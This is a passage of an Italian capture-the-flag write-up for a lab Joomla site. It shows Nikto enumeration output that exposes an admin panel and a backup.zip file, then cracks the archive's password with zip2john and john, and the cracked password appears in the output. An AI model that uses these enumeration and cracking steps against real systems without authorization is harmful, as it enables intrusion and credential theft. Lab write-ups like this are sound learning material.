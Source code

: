 ```
+ /includes/: This might be interesting.
+ /tmp/: This might be interesting.
+ /README: README file found.
+ /LICENSE.txt: License file found may identify site software.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /htaccess.txt: Default Joomla! htaccess.txt file found. This should be removed or renamed.
+ /administrator/index.php: Admin login page/section found.
+ 8898 requests: 1 error(s) and 32 item(s) reported on remote host
+ End Time:           2025-06-07 06:01:29 (GMT-4) (952 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

La nostra enumerazione web con Nikto ha rivelato che il sito web contiene un file robots.txt e una directory 
```
/administrator/
```
dove troviamo il pannello di accesso
```
http://10.10.34.165:8080/administrator/
```


**Abbiamo bisogno di accedere all'amministrazione del sito per ottenere una shell. Esiste un file di backup. Che file è questo?**

controllando l'enumerazione eseguita con nikto notiamo un file backup.zip
```
backup.zip
```

**Abbiamo il file di backup e ora dovremmo cercare alcune informazioni, ad esempio il database, i file di configurazione, ecc... Ma il file di backup sembra essere crittografato. Qual è la password?**
lo scarichiamo e proviamo ad aprirlo ma è protetto da password
 utilizziamo john

```
zip2john backup.zip > zip_hash
```

```
john zip_hash
```
trovata la password
```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 3 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
hannah           (backup.zip)     
1g 0:00:00:00 DONE 2/3 (2025-06-07 06:24) 4.347g/s 401726p/s 401726c/s 401726C/s 123456..Open
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
password backup.zip
```
hannah
```
**Ricorda che... Abbiamo bisogno di accedere all'amministrazione del sito... Bla bla bla. Nella nostra nuova scoperta vediamo alcuni file che contengono informazioni compromettenti, forse il database? Ok, e se ripristinassimo il database? Alcune tabelle devono avere qualcosa come user_table! Qual è il super-utente?**